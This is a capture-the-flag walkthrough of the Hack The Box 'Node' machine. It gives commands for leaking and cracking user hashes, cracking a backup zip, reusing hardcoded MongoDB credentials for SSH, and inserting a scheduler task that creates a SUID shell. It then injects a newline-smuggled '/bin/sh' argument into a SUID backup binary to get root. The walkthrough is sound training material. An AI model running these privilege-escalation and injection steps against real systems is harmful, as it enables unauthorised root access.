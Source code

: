 ## Node | IP: 10.10.10.58

![Machine info card](machine.png)

### Enumeration

#### Dirbuster

Running Dirbuster (or most other web fuzzing tools) initially yield no results. However, after
tweaking the user agent, fuzzing reveals several directories.

Some interesting ones:  

- `/api/users`
- `/login`
- `/admin`


##### Information Disclosure

Go to - http://10.10.10.58:3000/api/users

![](1.1.png)

Here, we have the username and password hashes of 4 users. We can crack them as they are simple SHA256 hashes, use the `myP14ceAdm1nAcc0uNT:manchester` creds to login to the web app


#### Myplace.backup

Once logged in and the backup is downloaded, it is fairly obvious that the file is a single Base64 string. Using the command ​ `base64 -d myplace.backup > backup.zip` ​ will output a
password-protected ZIP file.
It is possible to crack the password using fcrackzip (or any other similar tool) and `rockyou.txt`. The following command will discover the correct password almost immediately.

```
$ fcrackzip -D -p ../../wordlists/rockyou.txt -u backup.zip
```

The password of zip is: `magicword`

```
┌─[maskofmydisguise@HP-kali]-[~/Desktop/HackTheBox/Linux Machines/Medium/Node/var/www/myplace]
└─➤ grep -r mark app.js
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

Now we have another set of creds: `mark:5AYRft73VtFpc84k`

use this password to SSH into the machine as mark,

```
$ ssh mark@10.10.10.58
```

### Priv Esc

##### Tom

```
mark@node:~$ mongo -p -u mark scheduler
# Enter password on prompt: 5AYRft73VtFpc84k
```

In the mongodb shell of database `scheduler`,

```
> db.tasks.insert({"cmd":"cp /bin/bash /tmp/momd;chown tom:admin /tmp/momd; chmod g+s /tmp/momd; chmod u+s /tmp/momd"});
```

Now,

```
mark@node:~$ /tmp/momd -p
momd-4.3$ id
uid=1001(mark) gid=1001(mark) euid=1000(tom) egid=1002(admin) groups=1002(admin),1001(mark)
momd-4.3$ whoami
tom
```

##### Root

Various methods:

1. Buffer overflow in `/usr/local/bin/backup`

	###### Script: [`node_bufovrflw.py`](node_bufovrflw.py)
	
	![](3.png)

2. avoid bad characters - `/root /etc ; // $ ..` to do backup and retrieve flag
	+ `momd-4.3$ /usr/local/bin/backup momd 3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110 "$(printf "/ro\n/bin/sh\not")"` - gets us shell as root
	+ Go to `/` and execute `/usr/local/bin/backup momd 3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110 root` - will give us backup of `/root` directory as zip file from which flag can be retrieved.
	+ `/usr/local/bin/backup momd 3de811f4ab2b7543eaf45df611c2dd2541a5fc5af601772638b81dce6852d110 /r??t/ro?t.txt` - will give us backup of `/root/root.txt` file as zip from which flag can be retrieved.
		  
		  ![](2.1.png)
		  ![](2.2.png)

### Trophy

![](trophy.png)